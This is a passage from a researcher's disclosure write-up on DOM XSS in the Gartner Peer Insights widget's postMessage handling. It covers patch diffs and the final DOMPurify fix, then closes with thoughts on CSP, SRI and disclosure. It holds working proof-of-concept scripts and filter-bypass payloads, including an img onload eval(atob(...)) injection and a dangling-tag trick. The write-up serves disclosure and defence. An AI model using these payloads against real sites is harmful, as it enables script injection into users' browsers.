'">As of ' + w() + "</div>"), i.push("</div>"), i.push("</div>"), i
},
L = function(e) {
var i = [],
- n = e.rating,
- r = e.reviewCount;
- i.push('<div class="gartner-pi-card">'), i.push('<div class="gartner-pi-stats">'), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + n + "</span>"), i.push('<div class="gartner-pi-translate">'), i.push(k(n)), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>" + r + " Rating" + (r > 1 ? "s" : "") + "</span>"), i.push(" on Gartner Peer Insights</div>"), t.sourcingLink && (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">(Submit a review)</a>'), i.push("</div>")), i.push("</div>"), i.push("</div>"), i.push("</div>"), i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + '">As of ' + w() + "</div>"), i.push("</div>"), t.dataContainer.innerHTML = i.join(""), v(e.url, e.seoName)
+ n = _validateNumber(e.rating),
+ r = _validateNumber(e.reviewCount),
+ a = _validateString(e.url),
+ s = _validateString(e.seoName);
+ i.push('<div class="gartner-pi-card">'), i.push('<div class="gartner-pi-stats">'), i.push('<div class="gartner-pi-overall-rating">'), i.push('<span class="gartner-pi-score">' + n + "</span>"), i.push('<div class="gartner-pi-translate">'), i.push(k(n)), i.push('<div class="gartner-pi-reviews-link">'), i.push("<span>" + r + " Rating" + (r > 1 ? "s" : "") + "</span>"), i.push(" on Gartner Peer Insights</div>"), t.sourcingLink && (i.push('<div class="gartner-pi-sourcing-link">'), i.push('<a id="' + t.sourcingLink + '" href="' + t.sourcingLink + '" target="_blank">(Submit a review)</a>'), i.push("</div>")), i.push("</div>"), i.push("</div>"), i.push("</div>"), i.push('<div class="gartner-pi-as-of-date" title="As of ' + w() + '">As of ' + w() + "</div>"), i.push("</div>"), t.dataContainer.innerHTML = i.join(""), v(a, s)
},To recap, the original logic of the widget's postMessage event handler was to:
- Accept a string message
- JSON-decode the message
- Use values from the decoded message to construct wads of HTML and inject that HTML into the widget div's
innerHTML
I had suggested that Gartner consider a different approach - creating DOM elements using JavaScript and placing them within the widget's div, avoiding the use of innerHTML.
Instead, Gartner chose to add filtering logic via two new functions they named _validateNumber() and _validateString(), and to use them to sanitize the values from incoming message before constructing the wads of HTML which end up in the div's innerHTML.
Both of the sanitizing functions could be bypassed.
Bypassing _validateNumber()
_validateNumber() was implemented as follows:
_validateNumber = function(e) {
return Number.isNaN(e) ? 0 : e
};This function returned 0 if the argument given to it was NaN, else it returned the argument given to it.
Number.isNan() is documented as "[determining] whether the passed value is the number value NaN, and returns false if the input is not of the Number type" (emphasis mine). In the case that the call to Number.isNaN() returns false, _validateNumber() simply returned the value given to it. Meaning that _validateNumber() would return a string value as-is, performing no sanitisation on it.
>> _validateNumber(1337)
1337
>> _validateNumber(NaN)
0
>> _validateNumber("Hello, world!")
"Hello, world!"
>> _validateNumber("<img src=x onerror=alert(1)>")
"<img src=x onerror=alert(1)>"
And so by targeting a value that was sanitised using _validateNumber() and by giving it a string value containing active content, we could still achieve DOM XSS.
As it happens, our POCs thus far have been using the rating value, which is rendered in all widgets regardless of widget size and is sanitised using _validateNumber(). The following code, which implements the race technique and targets the rating value, will achieve DOM XSS on our demo site when executed in the F12 Developer Console of www.gartner.com
function ding(w, m, ttl) {
w.postMessage(m, "*");
ttl > 0 && setTimeout(ding, 100, w, m, ttl - 1);
}
(function(){
if (!(new Set(["gcom.pdodev.aws.gartner.com", "gcom.pdoqa.aws.gartner.com", "gartner.com", "www.gartner.com"]).has((new URL(location.origin)).hostname))) {alert("Origin's hostname is not in the blessed set"); return;}
let payload = "alert(document.domain);";
let u = "https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo3.html";
let wid="OWMzM2QzN2EtNWUwYS0iRJRJFJFIRDgtNWQ4ZjgyNDIyMmY3";
let badImg = `<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" onload="eval(atob('${btoa(payload)}'))">`;
let w = window.open(u);
m = JSON.stringify({"widgetId": wid, "reviews": [], "rating": badImg, "vendor": {"rating": badImg}});
ding(w, m, 1000);})()Bypassing _validateString()
_validateString() was implemented as follows:
_validateString = function(e) {
if (!("string" == typeof e || e instanceof String)) return "";
var t = (new DOMParser).parseFromString(e, "text/html");
return Array.from(t.body.childNodes).some(function(e) {
return 1 === e.nodeType
}) ? "" : e
}This code:
- Returned empty string if the value given to it is not of type string; else
-
Used DOMParser.parseFromString() to parse the string as though it was HTML, resulting in a
HTMLDocument -
Iterated over the
HTMLDocument'sbody.childNodesand if any of them were of nodeType 1 (Node.ELEMENT_NODE), returned empty string, else returned the value given to the function
The function seems to return empty string if there are any complete HTML tags in the string argument given to it:
>>_validateString("abcd")
"abcd"
>>_validateString("abcd<img src=x>")
""
>>_validateString("abcd<script></script>")
""
>>_validateString("abcd<hello world>")
""However, when given a dangling HTML tag, the function returns the string argument as-is:
>>_validateString("abcd<img src=x")
"abcd<img src=x"
>>_validateString("abcd<hello world")
"abcd<hello world"Thus, we can give dangling HTML tags, and hope that a subsequent tag closes it for us.
For example, the "small" and "large" widgets took the name value from the message, passed it through _validateString(), and used it before another tag.
The relevant data path for the "small" widget was as follows:
y = function(e) {
// [... SNIP ...]
if ("line" === t.size) L(e);
else if ("large" === t.size) {
// [... SNIP ...]
} else {
// Handle data for small widget using _()
_(e);
}
}
_ = function(e) {
// Generate HTML using C()
var i = C(e);
// Inject HTML into page
t.dataContainer.innerHTML = i.join("");
// [... SNIP ...]
},
C = function(e) {
var i = [],
// [... SNIP ...]
// Sanitise message's "name" value
s = _validateString(e.name),
return i.push(
// [... SNIP ...]
// Inject sanitised name value right before a closing h1 tag
i.push('<h1 class="gartner-pi-h1">' + s + "</h1>"),
// [... SNIP ...]
), i;
},
Large widgets used C() in a similar fashion.
And so the following, which again implements the race technique and uses name as the injection point using a dangling img tag, achieves DOM XSS on the demo site when executed in the F12 Developer Console of www.gartner.com
function ding(w, m, ttl) {
w.postMessage(m, "*");
ttl > 0 && setTimeout(ding, 100, w, m, ttl - 1);
}
(function(){
if (!(new Set(["gcom.pdodev.aws.gartner.com", "gcom.pdoqa.aws.gartner.com", "gartner.com", "www.gartner.com"]).has((new URL(location.origin)).hostname))) {alert("Origin's hostname is not in the blessed set"); return;}
let payload = "alert(document.domain);";
let u = "https://justinsteven.github.io/gartnerpeerinsightsxssdemo/demo3.html";
let wid="OWMzM2QzN2EtNWUwYS0iRJRJFJFIRDgtNWQ4ZjgyNDIyMmY3";
// Note that we leave this img tag dangling so it doesn't get spiked by _validateString()
let badImg = `<img src="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7" onload="eval(atob('${btoa(payload)}'))"`;
let w = window.open(u);
m = JSON.stringify({"widgetId": wid, "reviews": [], "name": badImg});
ding(w, m, 1000);})()tl;dr
Despite this patch, consumers of the Gartner Peer Insights widget were still susceptible to XSS if an attacker "pivoted" through an XSS vulnerability in one of the four blessed websites.
Chapter Six - Final fixes (26 January 2023 and 2 February 2023)
Gartner published changes on 26 January 2023 and 2 February 2023. The February update swapped out a parseInt() for a parseFloat(). This is not security relevant as far as I can tell, so we'll just review the code as of 2 February 2023.
After beautifying, normalising and tidying the new code, the first key difference is as follows:
diff --git a/hunk3c.js b/hunk5c.js
index a073191..3f511bb 100644
--- a/hunk3c.js
+++ b/hunk5c.js
@@ -1,3 +1,7 @@
a = function(e) {
- return e = e || {}, t.widget_id = e.widget_id, t.widget_id ? (t.size = !e.size || "small" !== e.size && "large" !== e.size && "line" !== e.size ? "small" : e.size, t.theme = !e.theme || "light" !== e.theme && "dark" !== e.theme ? "light" : e.theme, t.sourcingLink = e.sourcingLink || null, t.version = e.version || 1, e.container && e.container.nodeType && 1 === e.container.nodeType ? (t.container = e.container, d(), l(), T(), p(), void 0) : void s("Required: You must specify a DOM element for the widget to render in")) : void s("widget_id argument is required")
+ return load_dom_purify(), e = e || {}, t.widget_id = e.widget_id, t.widget_id ? (t.size = !e.size || "small" !== e.size && "large" !== e.size && "line" !== e.size ? "small" : e.size, t.theme = !e.theme || "light" !== e.theme && "dark" !== e.theme ? "light" : e.theme, t.sourcingLink = e.sourcingLink || null, t.version = e.version || 1, e.container && e.container.nodeType && 1 === e.container.nodeType ? (t.container = e.container, d(), l(), T(), p(), void 0) : void s("Required: You must specify a DOM element for the widget to render in")) : void s("widget_id argument is required")
+},
+load_dom_purify = function() {
+ var e = document.createElement("script");
+ e.setAttribute("src", "https://cdnjs.cloudflare.com/ajax/libs/dompurify/2.4.3/purify.min.js"), e.setAttribute("type", "text/javascript"), document.getElementsByTagName("head")[0].appendChild(e)
},It's pulling in DOMPurify, a "DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG."
The next key change is as follows:
diff --git a/hunk3d.js b/hunk5d.js
index 784be04..3fa5ce9 100644
--- a/hunk3d.js
+++ b/hunk5d.js
@@ -1,3 +1,3 @@
l = function() {
- window.addEventListener("message", o, {once: !0})
+ window.addEventListener("message", o)
},
The one-shot postMessage handler is back to being a regular handler.
The final key change is:
diff --git a/hunk3e.js b/hunk5e.js
index c1586a9..8f01a59 100644
--- a/hunk3e.js
+++ b/hunk5e.js
@@ -1,10 +1,17 @@
_validateNumber = function(e) {
- return Number.isNaN(e) ? 0 : e
-},
-_validateString = function(e) {
- if (!("string" == typeof e || e instanceof String)) return "";
- var t = (new DOMParser).parseFromString(e, "text/html");
- return Array.from(t.body.childNodes).some(function(e) {
- return 1 === e.nodeType
- }) ? "" : e
+ return e ? isNaN(e) ? 0 : parseFloat(e, 10) : 0
+},
+re_match_alphanum_slash = function(e) {
+ const t = /^[a-zA-Z0-9-\/]+$/;
+ return ("string" == typeof e || e instanceof String) && e.match(t) ? e : ""
+},
+re_match_alphanum = function(e) {
+ const t = /^[a-zA-Z0-9-]+$/;
+ return ("string" == typeof e || e instanceof String) && e.match(t) ? e : ""
+},
+sanitise = function(e) {
+ return "undefined" != typeof DOMPurify ? DOMPurify.sanitize(e) : sanitise_fallback(e)
+},
+sanitise_fallback = function(e) {
+ return e.replaceAll("&", "&").replaceAll("<", "<").replaceAll(">", ">").replaceAll("/", "/").replaceAll("'", "'").replaceAll('"', """)
};
_validateNumber() now does a parseFloat() (it was briefly a parseInt() between 26 January 2023 and 2 February 2023) on the not-NaN number it returns, and _validateString() has been replaced by a variety of functions that do the following:
- Returns the string if it only contains alphanum characters or dash, else returns empty string
- Returns the string if it only contains alphanum characters, dash or slash, else returns empty string
- Returns the string after it is fed through
DOMPurify.sanitize()if it is loaded, else it returns the string with key characters having been HTML encoded (including<and>)
These new string functions are used to sanitise postMessage values before constructing the wads of HTML.
I think the new sanitisation approach successfully protects against XSS, but if you can find a way to bypass it, let me know!
Chapter Seven - Closing Thoughts
Public disclosure suppression via "surprise" private bug bounty programs
I have feelings about public disclosure vs. private bug bounty programs. They're a bit hard to put into words.
First of all, I believe that if you're doing security research in your own lab, and you're not sending evil packets to someone else's computer, then it's fair game. Some may disagree.
If a company has a bug bounty program, and they invite you to send evil packets to their computers (e.g. company.com) and you find a bug, then I think you owe it to them to play by their rules. Especially if they're offering to pay you. If their rules are that they don't want you speaking publicly about the hacking you did to their computers, and them paying you is contingent on you agreeing to that, then agreeing is reasonable.
If you do hacking in your own lab to some software, and you find a bug, and you reach out to the vendor to say, "Hey, I think this can be made better, here's what I think you should do, and also whether you do something about it or not, I'll be publicly discussing this after a reasonable amount of time" then I think that makes a lot of sense.
If the company you reach out to then says, "Hey, we like your work. We like it so much we'll pay you for having done it. But only if you don't mention the work you did to anyone else" then I think that's uncool. If you agree to do so then that's fine, we've all gotta eat. But I think it's an awkward thing for the company to offer.
Input filtering/sanitisation vs. safe handling of data
I'm not generally a fan of input sanitisation. I'm especially not a fan of it when a company or some software gets owned, and the peanut gallery on Twitter and Hacker News be all like "WhY DiDN't THEY sanITise tHEIr inpUTs". It's easy to be a hindsight hero and throw out pithy one-size-fits-some solutions that run the risk of not being aggressive enough, or being too aggressive, or catering for the wrong context, or just straight up being bypassable. But I digress.
Recall that a slice of Gartner's original code was as follows:
// [... SNIP ...]
return i.push('<div class="gartner-pi-gradient"></div>'),
i.push('<div class="gartner-pi-card">'),
i.push('<div class="gartner-pi-logo"></div>'),
i.push('<div class="gartner-pi-header">'),
i.push('<h1 class="gartner-pi-h1">' + a + '</h1>'),
i.push('<h2 class="gartner-pi-h2">' + d + '</h2>'),
i.push('</div>'),
i.push('<div class="gartner-pi-stats">'),
i.push('<div class="gartner-pi-alignLeft">'),
i.push('<div class="gartner-pi-overall-rating">'),
i.push('<span class="gartner-pi-score">' + n + '</span>'),
i.push(k(n)),
i.push('</div>'),
// [... SNIP ...]
My original suggestion to Gartner was not to do sanitisation, but to rethink the way that they populate elements within a website's DOM. Cobbling together a wad of HTML and throwing it into a div's innerHTML is, in my opinion, a quick and risky way of displaying dynamically constructed elements. It would be more work, but IMO more robust, to use JavaScript to create DOM elements, to set their attributes and their innerText values as needed, and to structure the elements within the page.
Gartner chose a sanitisation strategy, where they would attempt to cleanse message data before building the wads of HTML. The initial approach was sadly bypassable.
I stand by my original suggestion, but in the case that one really wants or really needs to do sanitisation of data before slamming it in to innerHTML, I would suggest:
- Using DOMPurify and paying close attention to their security notes rather than hand-rolling a solution; and
- Keeping an eye on the Element.setHTML() experimental API, which isn't yet supported by all browsers but which looks like it'll give you browser-powered DOMPurify-like sanitisation for free
Supply chain risk
Introducing third-party code to your website's frontend introduces various performance, privacy and security risks.
- Vulnerabilities in front-end code can lead to XSS (see above)
- A compromise of the third party can lead to tampering of the code (see Magecart and also RyotaK's work on Cloudflare's cdnjs)
While this story only deals with the former, both are relevant when considering the risks of introducing third-party code to your frontend.
Mitigating controls
There are some controls one can consider to mitigate web security risks, including as they relate to third-party code.
Content Security Policy (CSP)
Content Security Policy can mitigate XSS vulnerabilities. For example, Veracode instantiates the Peer Insights Widget but includes CSP controls, which at the time of writing are:
content-security-policy: default-src 'self' play.vidyard.com; script-src 'self' 'unsafe-inline' *.googleapis.com *.marketo.net *.google-analytics.com *.google.com *.linkedin.com *.marketo.com play.vidyard.com *.googletagmanager.com *.googleadservices.com *.mktoresp.com static.ads-twitter.com *.twitter.com *.doubleclick.net api.company-target.com *.cloudfront.net *.newrelic.com bam.nr-data.net client.netmng.com js.bizographics.com s.swiftypecdn.com connect.facebook.net script.crazyegg.com *.amazonaws.com *.swiftype.com *.6sc.co *.jquery.com *.cookielaw.org *.onetrust.com *.techtarget.com *.driftt.com boards.greenhouse.io snap.licdn.com px.airpr.com tracking.intentsify.io js.adsrvr.org ads.avocet.io ads.avct.cloud ml314.com optanon.blob.core.windows.net unpkg.com mc.yandex.ru protect-us.mimecast.com *.veracode.com *.trustradius.com *.brighttalk.com widgets.peerspot.com analytics.bgalytics.com/veracode.com static.cloudflareinsights.com nexus.ensighten.com *.gartner.com d3js.org/d3.v5.min.js; object-src 'self'; style-src 'self' 'unsafe-inline' fonts.googleapis.com cdnjs.cloudflare.com *.marketo.com s.swiftypecdn.com tagmanager.google.com *.cookielaw.org *.veracode.com maxcdn.bootstrapcdn.com optanon.blob.core.windows.net pro.fontawesome.com *.trustradius.com *.gartner.com optimize.google.com; img-src 'self' data: * *.gstatic.com; media-src 'self' *.youtube.com js.driftqa.com js.driftt.com; frame-src 'self' *.youtube.com *.google.com *.facebook.com platform.twitter.com careers.lifeatca.com *.snapengage.com b.company-target.com app-abd.marketo.com *.doubleclick.net play.vidyard.com *.jquery.com *.cookielaw.org *.onetrust.com *.techtarget.com *.soundcloud.com *.slideshare.net *.driftt.com boards.greenhouse.io insight.adsrvr.org match.adsrvr.org *.veracode.com *.marketo.com *.brighttalk.com d1eoo1tco6rr5e.cloudfront.net *.gartner.com; child-src 'self' *.youtube.com *.google.com *.facebook.com platform.twitter.com app-abd.marketo.com *.doubleclick.net play.vidyard.com *.jquery.com *.cookielaw.org *.onetrust.com *.soundcloud.com *.veracode.com blob:; font-src 'self' data: *; connect-src 'self' *.mktoresp.com *.marketo.com secure.adnxs.com api.company-target.com *.google-analytics.com s.swiftypecdn.com cdnjs.cloudflare.com *.googleapis.com *.googletagmanager.com com *.googleadservices.com sjs.bizographics.com *.ads-twitter.com fonts.gstatic.com connect.facebook.net caveracode.netmng.com munchkin.marketo.net analytics.twitter.com *.doubleclick.net *.google.com t.co *.company-target.com *.prod.bidr.io id.rlcdn.com *.facebook.com *.ads.linkedin.com *.6sc.co *.crazyegg.com *.swiftype.com *.jquery.com *.cookielaw.org *.onetrust.com *.techtarget.com *.vidyard.com *.linkedin.com *.gravatar.com play.vidyard.com secure.gravatar.com i1.wp.com js.driftt.com boards.greenhouse.io bam.nr-data.net mc.yandex.ru *.trustradius.com *.cloudfront.net collection.bgalytics.com 790-zkw-291.mktoutil.com info.veracode.com
This policy defeats the POC I chose to use. It prevents the use of eval which breaks the <img src=x onerror="..."> trick. The policy does allow unsafe-inline scripts, but <script> elements when set using .innerHTML will not execute. All of this is to say, Veracode's CSP prevented my naive attempts at exploitation, there might still be a way to get it to pop off, but the presence of CSP is doing its job in making exploitation more difficult (and perhaps impossible).
Then again... Allowing unsafe-inline scripts is dangerous, and at least some listed items (e.g. *.cloudfront.net and *.amazonaws.com) are on the Public Suffix List, allowing anyone to host a blessed .js file there. It's not the best policy, but it gave me a hard time.
Subresource Integrity (SRI)
It's somewhat off-topic, but working through this bug made me think about SRI, so here goes.
Subresource Integrity is an effective mitigating control for the "compromised third party or CDN" case. The webpage that sources off-site third-party code can specify the cryptographic hash that the file is expected to have, and if the hash doesn't match (e.g. because the file has been maliciously modified) it doesn't execute in the user's browser.
However, offering SRI as the third party, and using SRI as the consumer, presents a trade-off against the "vulnerabilities" case.
- No SRI - there's a vulnerability in the third-party code, and the third party patches it. The file is updated on the provider's end, your users start getting the new file, they're no longer at risk of front-end XSS attacks, happy days. But you're also at risk of an attacker who has compromised the third party. They could replace the file with malicious contents, and it'd behave identically to the "the vendor patched a bug" case. Your users start getting the new malicious file and it's game over.
- Vendor offers SRI, you use it - you're no longer at risk of an attacker injecting malicious payloads into the third-party code with. But what if there's a vulnerability? The vendor has committed to offering SRI. They can't change the code without the hash breaking, which would cause all SRI-using consumers to start rejecting the new code altogether. The vendor will need to publish a new version, and you'll need to bump the version on your end and update the SRI hash. Basically, updates to the third-party code stop being invisible and automatic. Once a patch is published, you're a sitting duck, advertising to the world that you're consuming the old version.
- Vendor doesn't offer SRI, you use it anyway - you compute the expected hash of the third-party code and use it as an SRI hash. The vendor doesn't know you're doing this (and they don't need to), everything works on your end and you're protected against malicious tampering. You're also "protected" against genuine updates and bug fixes - as soon as the vendor changes the code (and without an SRI commitment, they feel free to) the SRI hash will break and your visitors will stop accepting the code.
I can't think of a universal solution in this trade off. The remote end can either fix bugs for you and you get protected for free and attackers can inject malicious payloads and you get them for free. Or you get neither. It's up to you to pick your poison.
Vendoring Code
Running parallel to the idea of SRI is the idea of vendoring third-party code. Rather than pointing your visitors to a third-party copy of the code and telling them "expect it to have this cryptographic hash else don't run it", you host a copy of the code yourself. This is how the intentionally vulnerable demo site which has been referenced throughout this document works. I grabbed point-in-time copies of the widget source code and hosted them locally.
Vendoring the code protects you from the "tampering" attack against the third party host, but it also prevents you from getting vulnerability fixes for free. When the vendor updates their copy of the code, you need to re-grab it and update your local copy.
I didn't originally realise that some sites discussed in this document were vendoring the widget code. Gartner picked up on this, and shouldered the work of reaching out to them. Some websites updated their vendored copy of the code but DTEX has not, demonstrating the risk of vendoring code and having it go stale.
Hack the planet
Finally, there are many more vulnerabilities in third-party JavaScript code. Stay safe, and happy hacking!